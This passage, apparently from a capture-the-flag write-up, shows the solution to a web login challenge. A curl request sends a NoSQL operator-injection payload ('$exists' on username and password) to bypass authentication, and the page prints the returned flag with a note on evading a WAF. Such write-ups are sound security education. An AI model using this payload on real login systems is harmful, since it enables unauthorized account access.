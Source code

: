 ```powershell
➜ curl 'https://spooky-space-intruder-web.chals.io/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username[$exists]=true&password[$exists]=true'
NICC{d1D_y0U_Kn0W_m0NgOdB1$_w3b$ca13?}
```

[Hacktricks: NoSQL - Basic Authentication Bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

> To my knowledge `$exists` worked because other filters got picked up by WAF.
{: .prompt-info }

> Flag: `NICC{d1D_y0U_Kn0W_m0NgOdB1$_w3b$ca13?}`
{: .prompt-tip }

> I wanted to include the last challenge in writeup, credit goes to `@partiot.viii`
{: .prompt-danger }